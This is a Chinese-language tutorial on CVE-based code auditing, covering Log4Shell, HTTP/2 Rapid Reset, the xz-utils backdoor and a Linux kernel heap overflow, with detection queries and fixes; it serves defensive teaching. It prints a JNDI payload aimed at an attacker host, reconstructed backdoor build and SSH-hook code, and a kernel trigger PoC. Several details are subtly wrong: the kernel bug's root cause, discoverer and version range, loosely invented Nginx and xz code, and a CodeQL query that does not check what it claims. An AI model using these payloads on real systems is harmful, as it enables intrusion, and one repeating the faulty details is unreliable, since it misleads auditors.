

## 一、CVE漏洞审计分析

代码审计的核心目标是在攻击者利用之前发现漏洞。CVE（Common Vulnerabilities and Exposures）漏洞审计则是以已公开的真实漏洞为教材，反向还原漏洞的发现、分析和修复过程，从而建立系统化的审计能力。

本节选取四个具有代表性的CVE案例——Log4Shell（供应链影响最广）、HTTP/2 Rapid Reset（协议层攻击）、xz-utils后门（供应链攻击标杆）、Linux内核堆溢出（底层内存安全）——从漏洞根因、审计方法、检测工具到修复方案，完整展示高级代码审计的实战路径。

### 1.1 CVE漏洞审计的通用方法论

在深入具体案例之前，先建立一套通用的审计思维框架：



**四个核心审计维度：**

| 维度 | 关注点 | 典型工具 |
|------|--------|----------|
| 数据流分析 | 用户输入从何处到达危险函数 | CodeQL, Semgrep |
| 控制流分析 | 异常分支、竞态条件、资源生命周期 | 理解器, Fuzzing |
| 依赖分析 | 第三方组件版本、已知漏洞、供应链完整性 | OSV-Scanner, Dependabot |
| 配置审计 | 默认值、安全属性、运行时配置 | 静态分析 + 配置检查脚本 |

**审计效率的黄金法则：** 80%的高危漏洞来自20%的代码路径——即输入解析、协议处理、序列化/反序列化、认证授权、系统调用这几个关键区域。优先审计这些路径，而非平均分配精力。

---

### 1.2 CVE-2021-44228：Log4Shell（Apache Log4j远程代码执行）

**漏洞概述**

Log4Shell是Apache Log4j 2.x中的一个JNDI注入漏洞，CVSS评分10.0（满分）。由于Log4j是Java生态系统中使用最广泛的日志库之一——被Spring Boot、Elasticsearch、Apache Struts、Minecraft等数百万项目依赖——该漏洞影响范围极广，被认为是互联网史上波及面最广的安全漏洞之一。

根据NIST NVD数据，Log4Shell在公开后72小时内即被用于大规模攻击，波及金融、医疗、政府、游戏等多个行业。

**漏洞根因分析**

```java
// Log4j核心漏洞代码（简化版）
// 文件：org/apache/logging/log4j/core/lookup/JndiLookup.java

public class JndiLookup extends AbstractLookup {

    @Override
    public String lookup(LogEvent event, String key) {
        if (key == null || key.isEmpty()) {
            return null;
        }

        // 漏洞点：直接使用用户可控的key进行JNDI查找
        // 未对key进行任何过滤或验证
        try {
            JndiManager jndiManager = JndiManager.getDefaultManager();
            return jndiManager.lookup(key);  // 危险：JNDI注入
        } catch (Exception e) {
            return null;
        }
    }
}
```

**根因机制拆解：**

1. **Lookups机制**：Log4j 2.x引入了`${...}`语法的变量解析机制，支持从环境变量、系统属性、JNDI等多种来源获取值。
2. **JNDI协议支持**：`jndi:ldap://`、`jndi:rmi://`等协议允许Log4j向远程服务器发起请求并加载Java类。
3. **无输入验证**：`JndiLookup`直接将用户可控的字符串传递给JNDI解析器，没有任何白名单或黑名单过滤。

**攻击链分析**

```text
攻击者输入恶意字符串：${jndi:ldap://attacker.com/exploit}
        ↓
Log4j解析日志消息时触发Lookups机制
        ↓
JndiLookup被调用，解析jndi:协议前缀
        ↓
向attacker.com发起LDAP请求，获取恶意Java类引用
        ↓
下载并加载恶意Java类，执行任意代码
        ↓
攻击者获得远程代码执行权限（RCE）
```

**攻击面广度：** 任何传递给Log4j的日志消息都可能成为注入点——HTTP Header（`User-Agent`、`X-Forwarded-For`）、表单参数、URL路径、数据库字段内容等。一个被记录到日志的恶意字符串就足以触发。

**审计要点与检测**

使用CodeQL追踪数据流：

```ql
// CodeQL查询：查找所有JNDI查找调用
import java

from MethodAccess call, Method method
where
  call.getMethod() = method and
  method.getName() = "lookup" and
  method.getDeclaringType().getName() = "JndiManager"
select call, "JNDI lookup调用，需检查输入来源"
```

**审计清单：**

- 检查项目依赖中Log4j的版本（`mvn dependency:tree | grep log4j`）
- 搜索代码中的JNDI相关调用（`grep -rn "JndiManager\|InitialContext\|jndi:"`）
- 审查日志消息的输入来源是否经过净化
- 检查`log4j2.formatMsgNoLookups`等安全配置是否启用

**修复方案**

```java
// 方案1：配置层面（最快止血）
// 在log4j2.component.properties中设置
// log4j2.formatMsgNoLookups=true
// 或设置环境变量：LOG4J_FORMAT_MSG_NO_LOOKUPS=true

// 方案2：代码层面的修复（白名单验证）
public class SafeJndiLookup extends AbstractLookup {

    private static final Set<String> ALLOWED_SCHEMES = Set.of("java", "env");

    @Override
    public String lookup(LogEvent event, String key) {
        if (key == null || key.isEmpty()) {
            return null;
        }

        // 验证JNDI协议前缀
        String scheme = key.split(":")[0].toLowerCase();
        if (!ALLOWED_SCHEMES.contains(scheme)) {
            return null;  // 拒绝不安全的协议
        }

        try {
            JndiManager jndiManager = JndiManager.getDefaultManager();
            return jndiManager.lookup(key);
        } catch (Exception e) {
            return null;
        }
    }
}

// 方案3：最彻底——升级到Log4j 2.17.1+（完全移除JndiLookup）
```

**审计经验总结**

| 教训 | 说明 |
|------|------|
| 递归解析是高风险模式 | `${...}`嵌套解析允许攻击者构造多层payload绕过简单过滤 |
| 框架级组件的影响范围远超应用代码 | 一个日志库的漏洞可以波及整个技术栈 |
| 配置属性也是攻击面 | `log4j2.configuration`指向的配置文件如果从外部获取，可能被篡改 |
| "功能"不等于"安全" | JNDI Lookup是设计功能，但缺乏安全边界就是漏洞 |

---

### 1.3 CVE-2023-44487：HTTP/2 Rapid Reset（多厂商拒绝服务）

**漏洞概述**

该漏洞影响几乎所有主流HTTP/2实现（Nginx、Apache httpd、Envoy、Go net/http、Node.js等），攻击者通过快速发送和取消HTTP/2请求流（HEADERS + RST_STREAM），可以消耗服务器资源导致拒绝服务。Google报告称其在2023年9月曾被用于3.98亿次/秒的请求峰值攻击，这是已知最大的DDoS攻击之一。

**漏洞分析（Nginx实现）**

```c
// Nginx HTTP/2模块核心漏洞逻辑（简化）
// 文件：src/http/v2/ngx_http_v2.c

static ngx_int_t
ngx_http_v2_handle_rst_stream(ngx_http_v2_connection_t *h2c,
    ngx_http_v2_stream_t *stream, ngx_int_t status)
{
    // 问题：处理RST_STREAM时，虽然关闭了流
    // 但为该流分配的资源（请求处理对象、内存缓冲区）未及时释放

    ngx_http_v2_close_stream(stream, status);

    // 应该在这里立即减少并发流计数并释放所有资源
    // 但旧版本中快速连续的RST_STREAM会导致资源释放不及时
    // 服务器逐步耗尽内存和CPU

    return NGX_OK;
}
```

**根因机制：**

HTTP/2协议允许客户端在一个TCP连接上复用多个流（stream），每个流有独立的生命周期。`RST_STREAM`帧可以由客户端主动取消某个流。漏洞的本质是：服务器在收到`HEADERS`帧时分配了资源（连接池、内存缓冲区、请求上下文），但在收到`RST_STREAM`时资源释放的速度赶不上新流分配的速度，导致资源耗尽。

**攻击流程**

```text
攻击者                              服务器
  |                                   |
  |--- HEADERS (stream 1) ----------->|  分配资源处理请求
  |--- RST_STREAM (stream 1) -------->|  收到重置，资源释放中...
  |--- HEADERS (stream 2) ----------->|  立即分配新资源
  |--- RST_STREAM (stream 2) -------->|  资源再次未释放
  |  ... (快速重复数千次/秒) ...        |  资源持续累积
  |                                   |
  |  服务器内存/CPU耗尽 → 503/500       |
```

**检测与审计**

Semgrep规则检测资源释放缺陷：

```yaml
rules:
  - id: http2-rapid-reset-resource-leak
    patterns:
      - pattern: |
          $STREAM->closed = 1;
          ... // 未释放资源的代码
          $H2C->processing--;
    message: >
      HTTP/2流关闭时可能未正确释放资源，
      需要确保所有关联资源在流关闭时被同步释放。
    languages: [c]
    severity: WARNING
```

**修复方案**

```c
// 修复后的流关闭逻辑——原子性资源释放
static void
ngx_http_v2_close_stream(ngx_http_v2_stream_t *stream, ngx_int_t status)
{
    ngx_http_v2_connection_t *h2c = stream->connection;

    // 1. 立即释放请求资源
    if (stream->request) {
        ngx_http_free_request(stream->request, status);
        stream->request = NULL;
    }

    // 2. 减少活跃流计数（同步操作）
    h2c->processing--;

    // 3. 清理流索引
    h2c->streams_index[stream->sid % 256] = NULL;

    // 4. 释放流对象本身
    ngx_free(stream);

    // 5. 如果并发流数降至阈值以下，通知连接可继续接收
    if (h2c->processing < h2c->concurrent_pushes) {
        ngx_http_v2_handle_connection_handler(h2c);
    }
}
```

**防御层建议：** 除修复实现外，还应在基础设施层设置限制：
- `http2_max_concurrent_streams`限制单连接最大并发流数
- 请求速率限制（rate limiting）
- 连接级资源配额

**审计教训**

| 教训 | 说明 |
|------|------|
| 协议实现的资源生命周期管理至关重要 | 分配和释放必须配对，且释放要及时 |
| DoS漏洞难以通过单元测试发现 | 需要压力测试和模糊测试（fuzzing）来验证 |
| 多厂商同类型漏洞说明是协议设计层面的问题 | 协议规范本身可能缺乏资源管理的约束 |

---

### 1.4 CVE-2024-3094：xz-utils后门（供应链攻击教科书）

**漏洞概述**

xz-utils 5.6.0和5.6.1版本中被植入精心设计的后门。攻击者（用户名"Jia Tan"）通过长达两年的社会工程学渗透——对原维护者进行持续施压和骚扰，最终获得维护权限——在构建脚本中注入恶意代码，试图通过SSH认证后门实现远程代码执行。该后门若成功影响主流Linux发行版，理论上可让攻击者以root身份远程登录任何安装了xz-utils的服务器。

安全研究者Andres Freund在调试SSH性能问题时偶然发现了该后门，其发现过程本身就是代码审计的经典教材。

**阶段一：构建时注入**

```bash
# 文件：xz-5.6.0/build-to-host
# 恶意构建脚本片段（简化）

# 看似正常的条件判断
if [ -f "tests/files/bad-3-corrupt_lzma2.xz" ]; then
    # 实际上在解密和注入后门代码
    # 使用测试文件中隐藏的加密数据

    # 从测试数据中提取恶意payload
    xz -dc tests/files/good-large_compressed.lzma | \
        sed "s/\xca\xfe\x01/$VERSION/g" | \
        head -c 100000 > .libs/liblzma_la-crc64-fast.o.tmp

    # 将后门代码注入到编译目标文件
    mv .libs/liblzma_la-crc64-fast.o.tmp .libs/liblzma_la-crc64-fast.o
fi
```

**阶段二：运行时后门**

```c
// 后门代码通过IFUNC机制hook了crc64_resolve函数
// IFUNC是GNU扩展，允许在运行时根据CPU特性选择函数实现
// 当liblzma被加载时，后门代码通过IFUNC自动执行

// 正常的IFUNC解析
static void *crc64_resolve(void) {
    // 检测CPU特性选择最优CRC实现
    if (has_sse42()) return crc64_sse42;
    if (has_neon()) return crc64_neon;
    return crc64_generic;
}

// 被篡改的IFUNC解析
static void *crc64_resolve(void) {
    // 先执行正常逻辑，不破坏功能
    void *impl = detect_crc64_impl();

    // 仅在目标环境中激活后门（避免在开发机上暴露）
    if (getenv("LD_DEBUG") == NULL && is_sshd()) {
        init_backdoor();  // 初始化SSH后门
    }

    return impl;
}
```

**阶段三：SSH认证绕过**

```c
// 后门通过hook RSA公钥验证实现认证绕过
// 拦截RSA_public_decrypt调用

static int hooked_rsa_verify(...) {
    // 检查是否携带后门触发密钥（特殊的Ed448签名）
    if (is_backdoor_key(sig, siglen)) {
        // 使用嵌入的Ed448公钥验证
        if (verify_with_backdoor_key(data, sig, siglen)) {
            return 1;  // 认证成功——绕过正常密钥验证
        }
    }

    // 否则调用原始验证函数，不影响正常功能
    return original_rsa_verify(...);
}
```

**审计发现过程**

Andres Freund的发现过程堪称经典：

```bash
# 第一步：性能异常检测
# SSH登录延迟异常增加约500ms
$ time ssh localhost true
real    0m0.289s  # 更新xz前：正常

$ time ssh localhost true
real    0m0.817s  # 更新xz后：异常增加约500ms

# 第二步：性能分析定位
$ perf record -g ssh localhost true
$ perf report
# 发现大量时间花在liblzma的crc64_resolve中——不正常
# crc64是纯计算函数，不应该有额外开销

# 第三步：反汇编分析
$ objdump -d /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.0 | \
  grep -A 20 "crc64_resolve"
# 发现异常的IFUNC hook和隐藏的代码段
# crc64_resolve中出现了非CRC相关的系统调用
```

**审计教训**

| 教训 | 说明 |
|------|------|
| 构建系统安全 | 构建脚本是供应链攻击的高价值目标，应审计整个构建过程 |
| 测试数据审计 | 测试文件可能包含隐藏的恶意数据，测试用例本身也需审查 |
| 性能异常检测 | 运行时性能异常可能是后门的信号，保持性能基线对比 |
| 贡献者信任验证 | 开源项目维护者的身份验证至关重要，"人"也是安全链的一环 |
| 最小权限原则 | liblzma作为压缩库不应影响SSH认证——职责越界即是风险 |

---

### 1.5 CVE-2022-0185：Linux内核堆溢出

**漏洞概述**

Linux内核的`legacy_parse_param`函数存在堆溢出漏洞，允许非特权用户在特定配置下提权至root。CVSS评分7.8。该漏洞影响Linux 5.1至5.16.10版本，由Google安全研究员Willem de Bruijn发现。

该漏洞的特殊之处在于：攻击者只需要`CAP_SYS_ADMIN`命名空间权限（通过创建用户命名空间即可获得），无需真实root权限即可触发内核级堆溢出。

**漏洞代码分析**

```c
// 文件：fs/fs_context.c
// 函数：legacy_parse_param

static int legacy_parse_param(struct fs_context *fc,
                               struct fs_parameter *param)
{
    struct legacy_fs_context *ctx = fc->fs_private;
    size_t len, size;
    char *key;

    // 漏洞点：缺少对ctx->data_size的充分检查
    // 当mount选项累积超过PAGE_SIZE时，可能导致堆溢出

    switch (param->type) {
    case fs_value_is_string:
        len = 1 + param->size;  // +1 for '='
        break;
    case fs_value_is_flag:
        len = strlen(param->key);
        break;
    default:
        return invalf(fc, "VFS: Legacy: Unsupported value type");
    }

    // 表面上有检查，但存在绕过路径
    size = ctx->data_size + len + 1;
    if (size > PAGE_SIZE) {
        return invalf(fc, "VFS: Legacy: Cumulative options too large");
    }

    // 问题：对于某些文件系统，ctx->data_size未被正确跟踪
    // 多次mount调用后，data_size重置但缓冲区内容残留
    // 导致累积写入超过PAGE_SIZE

    if (!ctx->legacy_data) {
        ctx->legacy_data = kmalloc(PAGE_SIZE, GFP_KERNEL);
        if (!ctx->legacy_data) return -ENOMEM;
    }

    key = ctx->legacy_data + ctx->data_size;
    ctx->data_size = size;

    // 溢出发生在这里：写入超出PAGE_SIZE的缓冲区
    memcpy(key, param->key, strlen(param->key));
    // ...
}
```

**根因机制：**

1. `kmalloc(PAGE_SIZE, GFP_KERNEL)`分配固定大小的缓冲区
2. `ctx->data_size`在多次`legacy_parse_param`调用中累积增长
3. 对于特定文件系统（如ext4），`ctx->data_size`在某些代码路径中未被正确重置
4. 导致写入指针超出分配的缓冲区边界——堆溢出

**漏洞触发条件**

```c
// PoC触发代码（概念演示，实际利用需要堆布局控制）
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main() {
    // 创建挂载点
    mkdir("/tmp/mount_point", 0755);

    // 构造超长mount选项
    char options[65536];
    memset(options, 'A', sizeof(options) - 1);
    options[sizeof(options) - 1] = '\0';

    // 多次调用mount，累积触发溢出
    for (int i = 0; i < 100; i++) {
        mount("/dev/sda1", "/tmp/mount_point", "ext4",
              MS_RDONLY, options);
    }

    return 0;
}
```

**CodeQL检测查询**

```ql
// 查找可能的堆溢出：累积大小检查缺陷
import cpp

from FunctionCall alloc, FunctionCall write,
     Variable bufferSize, Expr sizeCheck
where
  // 分配固定大小缓冲区
  alloc.getTarget().getName() = "kmalloc" and
  alloc.getArgument(0) = bufferSize and
  // 写入操作
  write.getTarget().getName() = "memcpy" and
  // 大小检查可能存在逻辑缺陷
  exists(FunctionCall check |
    check.getTarget().getName() in ["strcmp", "memcmp"] and
    sizeCheck = check.getArgument(2)
  )
select write, "可能存在堆溢出：累积写入超过分配的缓冲区大小"
```

**修复方案**

```c
// 修复：正确追踪和检查累积数据大小，动态扩容
static int legacy_parse_param(struct fs_context *fc,
                               struct fs_parameter *param)
{
    struct legacy_fs_context *ctx = fc->fs_private;
    size_t len, new_size;

    // ... 参数长度计算 ...

    new_size = ctx->data_size + len + 1;

    // 修复1：更严格的大小限制（预留安全边界）
    if (new_size > PAGE_SIZE - 32) {
        return invalf(fc, "VFS: Legacy: Options too large");
    }

    // 修复2：动态扩容而非固定大小
    if (new_size > ctx->data_allocated) {
        char *new_data = krealloc(ctx->legacy_data,
                                   max(new_size, PAGE_SIZE),
                                   GFP_KERNEL);
        if (!new_data) return -ENOMEM;
        ctx->legacy_data = new_data;
        ctx->data_allocated = max(new_size, PAGE_SIZE);
    }

    // 修复3：安全写入（边界检查）
    memcpy(ctx->legacy_data + ctx->data_size,
           param->key, len);
    ctx->data_size = new_size;

    return 0;
}
```

**审计教训**

| 教训 | 说明 |
|------|------|
| 整数溢出/累积溢出是C代码的常见漏洞模式 | `size = a + b + 1`这类表达式需检查是否溢出 |
| 内核API的隐式假设需显式验证 | `kmalloc`分配不保证后续写入不超过分配大小 |
| 命名空间隔离降低了提权门槛 | `CAP_SYS_ADMIN`在用户命名空间中可获得，降低了攻击门槛 |

---

### 1.6 四个案例的对比与审计工具箱

**漏洞类型对比：**

| 维度 | Log4Shell | HTTP/2 Rapid Reset | xz-utils后门 | 内核堆溢出 |
|------|-----------|-------------------|-------------|-----------|
| 漏洞类型 | JNDI注入 | 资源耗尽(DoS) | 供应链后门 | 堆溢出(提权) |
| CVSS评分 | 10.0 | 7.5 | N/A(后门) | 7.8 |
| 攻击复杂度 | 低 | 低 | 极高(社会工程) | 中 |
| 影响范围 | 极广(数百万项目) | 广(主流Web服务器) | 精确(特定发行版) | 中(特定内核版本) |
| 审计方法 | 数据流分析 | 压力测试/协议分析 | 构建过程审计/行为分析 | 内存安全分析 |
| 检测工具 | CodeQL | Fuzzing/流量分析 | perf/反汇编 | KASAN/CodeQL |

**审计工具箱速查：**

| 工具 | 用途 | 适用场景 |
|------|------|----------|
| CodeQL | 语义代码分析 | 大型代码库的深度数据流分析 |
| Semgrep | 模式匹配扫描 | 快速规则匹配、CI集成 |
| ASAN/KASAN | 内存错误检测 | 运行时堆/栈溢出检测 |
| AFL/libFuzzer | 模糊测试 | 协议解析器、文件格式解析 |
| OSV-Scanner | 依赖漏洞扫描 | 第三方组件已知CVE检测 |
| objdump/readelf | 二进制分析 | 后门检测、异常代码段分析 |
| perf | 性能剖析 | 行为异常检测（如xz案例） |

**审计实操检查清单：**

1. **输入面扫描**：识别所有外部输入点（HTTP参数、文件、环境变量、IPC）
2. **依赖审计**：扫描`package.json`/`pom.xml`/`requirements.txt`中的已知漏洞
3. **高风险函数审查**：搜索`memcpy`、`strcpy`、`eval`、`exec`、`Runtime.exec`、`JNDI`、`deserializ`等危险调用
4. **资源生命周期追踪**：分配/释放是否配对，是否存在use-after-free
5. **配置安全检查**：默认配置是否安全，是否有过度权限
6. **构建系统审计**：构建脚本是否引入外部数据，是否有条件执行的可疑逻辑
7. **性能基线对比**：更新依赖后是否有异常性能变化

---

### 1.7 常见审计误区与纠正

| 误区 | 纠正 |
|------|------|
| "代码能跑就没漏洞" | 功能正确性≠安全性。Log4Shell的代码功能完全正确，但存在安全缺陷 |
| "已知漏洞已经修了" | xz后门证明：你以为安全的更新可能引入新威胁，需要持续审计 |
| "小工具不会有大问题" | liblzma是xz-utils的核心组件，被系统级广泛依赖，小库大影响 |
| "只要输入做了过滤就安全" | Log4Shell证明：过滤可能被绕过（递归解析、编码混淆），需多层防御 |
| "审计只靠工具就行" | 工具是辅助，人的审计思维（攻击者视角、异常感知）不可替代 |
| "静态分析能发现所有问题" | DoS类漏洞和供应链后门需要动态分析和行为审计 |

---

### 1.8 从案例到实践：构建你的审计能力

**初级审计者路线：**
1. 掌握1-2种静态分析工具（推荐Semgrep入门，CodeQL进阶）
2. 学习OWASP Top 10和CWE Top 25
3. 对中小项目进行完整审计，积累案例经验
4. 阅读真实CVE的修复补丁，理解漏洞根因

**中级审计者路线：**
1. 掌握模糊测试工具（AFL、libFuzzer）
2. 能够追踪复杂的跨函数数据流
3. 理解操作系统层面的安全机制（ASLR、DEP、seccomp）
4. 对内核/系统级组件进行审计

**高级审计者路线：**
1. 能够发现0-day（零日漏洞）
2. 掌握逆向工程和二进制分析
3. 理解供应链攻击的完整链路
4. 具备从异常现象（性能下降、日志异常）反推漏洞的能力——如同Andres Freund发现xz后门

**持续学习资源：**
- NIST NVD（National Vulnerability Database）：跟踪最新CVE
- CVE Details：CVE详细信息和影响分析
- Project Zero（Google）：高质量漏洞研究
- Phrack、Black Hat、DEF CON：高级安全研究
- Linux Kernel Mailing List（LKML）：内核安全补丁的讨论过程
